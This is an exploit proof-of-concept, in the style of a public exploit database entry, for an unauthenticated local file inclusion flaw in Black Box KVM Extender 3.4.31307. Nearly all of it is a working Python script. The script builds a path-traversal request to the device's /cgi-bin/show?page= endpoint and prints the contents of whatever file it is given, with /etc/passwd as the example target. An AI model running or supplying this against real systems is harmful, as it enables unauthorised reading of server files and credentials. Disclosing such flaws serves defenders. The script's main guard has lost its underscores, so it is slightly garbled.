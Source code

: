     # Exploit Title: Black Box Kvm Extender 3.4.31307 - Local File Inclusion
    # Date: 05.07.2021
    # Exploit Author: Ferhat Çil
    # Vendor Homepage: http://www.blackbox.com/
    # Software Link: https://www.blackbox.com/en-us/products/black-box-brand-products/kvm
    # Version: 3.4.31307
    # Category: Webapps
    # Tested on: Linux
    # Description: Any user can read files from the server
    # without authentication due to an existing LFI in the following path:
    # http://target//cgi-bin/show?page=FilePath

    import requests
    import sys

    if name == 'main':
        if len(sys.argv) == 3:
            url = sys.argv[1]
            payload = url + "/cgi-bin/show?page=../../../../../../" + sys.argv[2]
            r = requests.get(payload)
            print(r.text)
        else:
            print("Usage: " + sys.argv[0] + ' http://example.com/ /etc/passwd')
